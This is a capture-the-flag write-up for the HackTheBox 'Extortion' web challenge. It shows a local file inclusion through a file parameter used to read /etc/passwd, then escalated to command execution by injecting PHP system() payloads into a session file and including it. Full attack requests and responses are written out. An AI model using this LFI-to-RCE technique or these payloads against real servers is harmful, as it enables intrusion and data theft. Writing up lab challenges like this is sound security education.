





# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Extortion

Category: Web, Points: 300



# Extortion Solution

Let's start the docker and browse it:



By intercepting the request on "AIRSHIP" button click with [Burp](https://portswigger.net/burp) we can see the following request:



So we can see in request ```?f=airship.php```, Let's check if we can use [LFI](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) by browsing to the following link [http://178.62.14.240:32578/?f=f=../../../../../../../../../../etc/passwd](http://178.62.14.240:32578/?f=f=../../../../../../../../../../etc/passwd).

The link above give us empty page but if we look at the source we can see the following:
```HTML
...
}), /*#__PURE__*/
    React.createElement("div", { className: "star-large" }), /*#__PURE__*/

    React.createElement("img", { src: "https://media4.giphy.com/media/26BoCVdjSJOWT0Fpu/source.gif", className: "App-logo", alt: "logo" }), /*#__PURE__*/
    React.createElement("p", null, "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
"), /*#__PURE__*/
)));
}
</script>
</body>
..
```

So It's mean we can use LFI.

We can upgrade from LFI to RCE with using php session ([Reference](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)).

First, We need to send the payload from another page, We can see the page Send:



Which send the following POST request (Intercept using Burp):



According the tutorial above we can inject our payload at this request with the following POST request:
```HTTP
POST /send.php HTTP/1.1
Host: 178.62.14.240:31935
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://178.62.14.240:31935
DNT: 1
Connection: close
Referer: http://18.62.14.240:31935/send.php
Upgrade-Insecure-Requests: 1


name=<?php system("ls");?>
```

Remove the ```Cookie``` header (to get a new php session) and set the payload on ```name```.

We get the following response:
```HTTP
HTTP/1.1 200 OK
Date: Fri, 23 Apr 2021 13:33:07 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.16
Set-Cookie: PHPSESSID=0be6b1f200c7e5fc67ca58f50c0f5368; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 27020
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en" >
<head>
<meta charset="UTF-8">
<title>Extortion</title>
...
``` 
We can see the new php session we get ```0be6b1f200c7e5fc67ca58f50c0f5368```.

Now, Let's try to read it from with the first request:
```HTTP
GET /?f=../../../../tmp/sess_0be6b1f200c7e5fc67ca58f50c0f5368 HTTP/1.1
Host: 178.62.14.240:31935
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://178.62.14.240:31450/?f=airship.php
Cookie: PHPSESSID=227c0831cad19aaeff242913ed19ca84
Upgrade-Insecure-Requests: 1

```

And at the end of the response we can see the content of ```ls``` command:

```HTTP
...
}), /*#__PURE__*/
    React.createElement("p", null, "plane|s:21:"files
flag_ffacf623917dc0e2f83e9041644b3e98.txt
index.php
send.php
";"), /*#__PURE__*/
)));
}
</script>
</body>
...
```

NOTE: the default php session location is ```/tmp``` directory.


We found the flag file ```flag_ffacf623917dc0e2f83e9041644b3e98.txt```, Let's create another request with command ```cat flag_ffacf623917dc0e2f83e9041644b3e98.txt``` to get the flag:

```HTTP

```

```HTTP
POST /send.php HTTP/1.1
Host: 178.62.14.240:31935
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://178.62.14.240:31935
DNT: 1
Connection: close
Referer: http://18.62.14.240:31935/send.php
Upgrade-Insecure-Requests: 1


name=<?php system("cat flag_ffacf623917dc0e2f83e9041644b3e98");?>
```

Response:

```HTTP
HTTP/1.1 200 OK
Date: Fri, 23 Apr 2021 13:33:07 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.16
Set-Cookie: PHPSESSID=76667dc1e203e078b760b5d9c1b575df; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 27020
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en" >
<head>
<meta charset="UTF-8">
<title>Extortion</title>
...
``` 

Read the php session again to get the content:
```HTTP
GET /?f=../../../../tmp/sess_76667dc1e203e078b760b5d9c1b575df HTTP/1.1
Host: 178.62.14.240:31935
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://178.62.14.240:31450/?f=airship.php
Cookie: PHPSESSID=227c0831cad19aaeff242913ed19ca84
Upgrade-Insecure-Requests: 1

```

Response:
```HTML
...

   React.createElement("img", { src: "https://media4.giphy.com/media/26BoCVdjSJOWT0Fpu/source.gif", className: "App-logo", alt: "logo" }), /*#__PURE__*/
    React.createElement("p", null, "plane|s:29:"CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}
";"), /*#__PURE__*/
)));
}
```

And we get the flag ```CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}```.